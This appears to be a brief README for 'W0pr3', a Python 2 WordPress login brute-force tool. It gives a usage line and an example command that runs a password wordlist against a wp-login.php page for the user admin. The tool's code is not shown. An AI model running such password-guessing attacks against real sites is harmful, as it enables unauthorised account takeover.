 # W0pr3
Wordpress BruteForce

# How To Use
$ python2 w0pr3.py < url > < username > < wordlist-password > < error-massage >

Example 

$ python2 w0pr3.py http://target.com/wp-login.php admin list.txt "Invalid"
